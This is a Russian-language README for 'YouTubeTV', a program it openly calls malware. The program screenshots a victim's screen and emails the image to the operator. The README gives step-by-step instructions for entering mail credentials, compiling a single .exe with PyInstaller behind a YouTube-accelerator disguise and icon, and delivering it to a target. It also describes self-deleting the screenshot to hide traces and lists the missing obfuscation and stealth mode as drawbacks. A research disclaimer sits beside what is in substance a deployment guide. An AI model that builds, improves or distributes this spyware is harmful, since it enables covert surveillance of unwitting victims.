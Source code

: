 <h1>YouTubeTV</h1>

YouTubeTV — вредоносная программа для создания снимков экрана и их отправки на Вашу электронную почту. 

<h2>Использование</h2>

Программа создана исключительно в исследовательских целях кибербезопасности, а также для тестирования антивирусных программ. Автор не несёт ответственность за использование программ другими людьми, и (или) в каких-либо злоумышленных целях.

Пример использования: https://youtu.be/

1. Скачайте из релиза (Releases) файлы "default.env", "YouTubeTV.py" и "YouTubeTV.png".
2. Запустите "YouTubeTV.py" в любой удобной для Вас среде разработки, можно даже в Блокноте. В участке кода "Основная функция" запишите Ваш ненужный (по возможности анонимный, без имён и фамилий) адрес электронной почты. В учатске кода "Функция для отправки письма с вложением" в строке "with smtplib.SMTP_SSL('smtp.mail.ru', 465) as smtp:" запишите SMTP-сервер сервиса Вашего почтового ящика (его можно легко узнать в Интернете). Сохраните файл.
3. Запустите файл "default.env" в Блокноте и запишите Ваши учётные данные (логин и пароль) от Вашей электронной почты, указанной в пункте 2 (в основном коде программы). Сохраните файл.
4. Установите (если ранее этого не делали) "Python" отсюда: https://www.python.org/downloads/windows/.
5. Затем файлы "default.env" и "YouTubeTV.py" лучше поместить в корневую папку установленного "Python", как правило это "C:\Users\\*Имя пользователя системы*\AppData\Local\Programs\Python\Python312".
6. Запустите командную строку "Windows" ("cmd") и введите команду для установки библиотеки создания (компиляции) программ "pip install pyinstaller" (все команды вводятся без кавычек!).
7. В командной строке "Windows" ("cmd") перейдите в директорию (папку) только что сохранённых файлов (проекта) командой "cd C:\Users\\*Имя пользователя системы*\AppData\Local\Programs\Python\Python312".
8. Перенесите файл "YouTubeTV.png" на Рабочий стол. В командной строке "Windows" ("cmd"), находясь в указанной ранее директории (папке), пропишите команду для создания программы: "pyinstaller -F -i "C:\Users\\*Имя пользователя системы*\Desktop\YouTubeTV.png" YouTubeTV.py" (здесь путь до изображения прописывается в кавычках!). Если вдруг не создалась иконка, то переведите её в формат ".ico" здесь: https://convertio.co/ru/png-ico/ и попробуйте скомпилировать заново.
9. Дождитесь длительного процесса создания файла. После "70706 INFO: Building EXE from EXE-00.toc completed successfully." программу формата ".exe" можно будет найти в "C:\Users\\*Имя пользователя системы*\AppData\Local\Programs\Python\Python312\dist".
10. Помместите файлы "default.env" и "YouTubeTV.exe" в одну директорию (папку), например на Рабочий стол. В противном случае, программа работать не будет, предупредив уведомлением об ошибке.
11. Запустите "YouTubeTV.exe" и дождитесь длительной загрузки программы. В случае слов "YouTube ускорен!" снимок Вашего экрана будет создан, сохранён в этой же директории и отправлен на Вашу электронную почту в виде письма самому себе. Не забудьте о том, что Вы обязательно должны быть подключены к Интернету. Через некоторое время снимок экрана с данной директории самоуничтожится, для удаления следов компрометации и сохранения памяти для устройства. В случае ошибок пересмотрите пункты, начиная со 2, проверьте, верно ли введены данные в файле "YouTubeTV.py" (SMTP-сервер сервиса и Ваш адрес почты) "default.env" (данные авторизации).

<h2>Преимущества, недостатки и особенности</h2>

Преимущества программы:
1. Работоспособность.
2. Минимальное заимствование сторонних библиотек.
3. Маскировка программы под ускоритель YouTube, что актуально в условиях его блокировки.
4. Весь проект содержится в двух файлах форматов "*.exe" и ".env", что позволяет легко его запускать, распространять, а также делиться.
5. Простота, стиль и читабельность кода.

Недостатки программы:
1. Очень длительная загрузка программы и возможные зависания компьютера.
2. Отсутствие маскировки и запутывания (обфускации) вредоносного кода.
3. Программа не работает в скрытом режиме, а только при запуске.
4. Помимо доставки исполняемого файла также необходима доставка файла окружения "default.env", чтобы снимок экрана дошёл до Вас, что потребует дополнительных условностей перед атакуемой жертвой.
5. В файле "default.env" должны находиться Ваши учётные данные, поэтому необходимо использование ненужной (по возможности анонимной, без имён и фамилий) электронной почты.
6. Увидев содержимое файла "default.env" жертва может зайти в Вашу электронную почту.
7. Минимальная функциональность.

(С) Емельянов Григорий Андреевич. Все права защищены. Использование (копирование, сбор, обработка, хранение и распространение) кода программы и программы без указания автора запрещено.
